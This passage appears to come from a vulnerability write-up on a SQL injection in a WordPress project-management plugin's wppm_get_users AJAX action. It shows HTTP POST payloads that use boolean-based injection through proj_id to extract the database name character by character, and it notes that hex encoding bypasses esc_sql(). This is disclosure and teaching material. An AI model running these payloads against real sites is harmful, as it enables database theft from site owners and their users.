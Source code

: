 Response delay indicates a successful SQL Injection.

### Get First Letter of Database Name

To **dump all data**, the first step is to extract at least one character of the database name. Once retrieved, the rest can be dumped.

Send a **boolean-based SQLi payload** with the correct `proj_id`:

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
...
action=wppm_get_users&proj_id=(SELECT+IF(SUBSTRING(DATABASE(),1,1)=0x77,4,999))
```

> Database name is **wordpress**, so the first character is `w` (HEX `0x77`).

`SUBSTRING(STRING,1,1)` retrieves the first character.

Here, `$proj_id = 4`. Since `SUBSTRING('wordpress',1,1)=0x77` is true, the `IF(condition, value_if_true, value_if_false)` returns `4`, which exists in the database, so the response contains the project users.

![response none](res.png "Res 1")

Using **HEX technique** bypasses the `esc_sql()` function (see [Patch Diff](#patch-diff)) when quotes cannot be used.

Send a **boolean-based SQLi payload** with a wrong `proj_id`:

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
...
action=wppm_get_users&proj_id=(SELECT+IF(SUBSTRING(DATABASE(),1,1)=0x77,999,4))
```
